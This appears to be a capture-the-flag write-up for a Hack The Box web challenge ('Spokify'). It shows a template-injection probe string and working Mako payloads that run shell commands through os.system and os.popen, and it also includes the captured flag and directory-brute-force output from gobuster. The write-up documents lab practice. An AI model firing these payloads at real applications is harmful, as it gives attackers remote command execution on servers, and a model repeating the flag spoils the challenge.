



## Challenge Details
- XSS based challenge
- Created a request bin
- Oops may not be exploitable but let's try if the admins keep track 
- running a dir buster to find out hidden folders : it's a dead end
- it's not a simple xss challenge, lets see if we have any other resources
- okay zip locked source code files ? will try and break, but we have the web code let's investigate
- no luck all files are locked. which tools to use for breaking zip passwords ?
- or what else can be done with a page which does not use a session
- Q ? is the data processed on the server side in any functionality ?
- A : Yes some of the characters did not come back ?
- Is there any chance of SSTI ??

## Vulnerability Found

The app is vulnerable to Server Side template injection

> Payload that confirmed : ${{<%[%'"}}%\.

## exploit

looks like the site uses a mako template

> payload : ${self.module.cache.util.os.system("id")}

tweak it to read the flag.txt
```mako
${self.module.cache.util.os.system("ls ~")}
${self.module.cache.util.os.popen('id').read()}


```
so the second command works

> ${self.module.cache.util.os.popen('id').read()}

list directories in the root:


## Yay!


> Flag: HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
## Gobuster output
```bash
┌─[noob@parrot]─[~/HTB/Spokify]
└──╼ $gobuster dir -u http://83.136.250.243:33086/ -w /usr/share/wordlists/dirbuster/
apache-user-enum-1.0.txt                 directories.jbrofuzz                     directory-list-2.3-medium.txt            directory-list-lowercase-2.3-medium.txt
apache-user-enum-2.0.txt                 directory-list-1.0.txt                   directory-list-2.3-small.txt             directory-list-lowercase-2.3-small.txt
┌─[noob@parrot]─[~/HTB/Spokify]
└──╼ $gobuster dir -u http://83.136.250.243:33086/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt  -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://83.136.250.243:33086/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 49811 / 141709 (35.15%)

```

## Done
